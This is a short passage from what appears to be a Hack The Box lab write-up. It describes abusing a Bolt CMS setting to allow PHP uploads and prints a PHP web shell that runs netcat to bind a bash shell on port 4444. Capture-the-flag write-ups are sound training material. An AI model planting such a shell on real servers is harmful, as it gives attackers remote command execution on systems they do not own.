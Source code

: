 ![alt text](20.png "Zer0Code")

* We check this Bolt version for CVEs and we found this articale in resources about adding php to accepted file types and upload our php shell

![alt text](21.png "Zer0Code")

```console
root@Kali:~/HTB/registry# cat shell.php 
<?php                                                                                                                                               

    system("nc.traditional -lvp 4444 -e /bin/bash")                                                                                                                   

?>

```
